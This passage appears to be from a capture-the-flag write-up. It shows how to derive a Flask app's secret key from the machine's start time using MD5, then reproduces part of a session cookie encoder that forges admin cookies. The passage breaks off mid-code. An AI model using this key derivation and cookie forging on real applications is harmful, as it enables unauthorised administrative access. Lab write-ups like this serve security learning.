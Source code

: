 ## Getting access to the admin panel

Using the following little script we can "dump", well actually generate, the secret that will be used for the session cookie.

```py
import hashlib
import datetime

start_time = datetime.datetime(y, m, d, h, m, 0, 0)

SECRET_KEY = hashlib.md5(
    start_time.strftime("%d/%m/%Y %H:%M").encode()
).hexdigest()

print(SECRET_KEY)
```

First you replace the y, m, d, h, and m with that of the time you spawned the machine (make sure to use UTC time).
Then you can run the script and a secret will come out, in our case it was `82f412b476f33a68fc9510d1b77ad9c5`.

Then we can run a flask cookie generator, [cookie_generator.py](assets/cookie_generator.py).

```py
#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
```